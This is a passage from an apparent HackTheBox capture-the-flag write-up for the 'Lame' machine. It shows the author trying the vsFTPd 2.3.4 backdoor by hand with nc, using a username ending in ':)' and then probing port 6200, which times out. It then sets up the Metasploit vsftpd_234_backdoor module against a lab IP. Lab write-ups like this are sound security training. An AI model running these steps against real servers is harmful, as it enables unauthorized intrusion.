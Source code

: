 I wrote about this exploit in my [LaCasaDePapel writeup](/2019/07/27/htb-lacasadepapel.html). It can be triggered by connecting to FTP and logging in with a username ending in `:)`. I’ll try it with `nc`:

```

root@kali# nc 10.10.10.3 21
220 (vsFTPd 2.3.4)
USER 0xdf:)
331 Please specify the password.
PASS 0xdf-not-a-password 

```

If it worked, I should be able to connect to a listener on Lame port 6200. But it doesn’t work.

```

root@kali# nc 10.10.10.3 6200
Ncat: TIMEOUT.

```

### With Metasploit

I understand this exploit enough to know that it will be no different in Metasploit, but I can demonstrate here. I’ll fire up `msfconsole`, and search for it:

```

msf5 > search vsftpd

Matching Modules
================

   Name                                  Disclosure Date  Rank       Check  Description
   ----                                  ---------------  ----       -----  -----------
   exploit/unix/ftp/vsftpd_234_backdoor  2011-07-03       excellent  No     VSFTPD v2.3.4 Backdoor Command Execution

```

I’ll use it, and set the target:

```

msf5 > use exploit/unix/ftp/vsftpd_234_backdoor
msf5 exploit(unix/ftp/vsftpd_234_backdoor) > options

Module options (exploit/unix/ftp/vsftpd_234_backdoor):

   Name    Current Setting  Required  Description
   ----    ---------------  --------  -----------
   RHOSTS                   yes       The target address range or CIDR identifier
   RPORT   21               yes       The target port (TCP)

Exploit target:

   Id  Name
   --  ----
   0   Automatic

msf5 exploit(unix/ftp/vsftpd_234_backdoor) > set rhosts 10.10.10.3
rhosts => 10.10.10.3

```
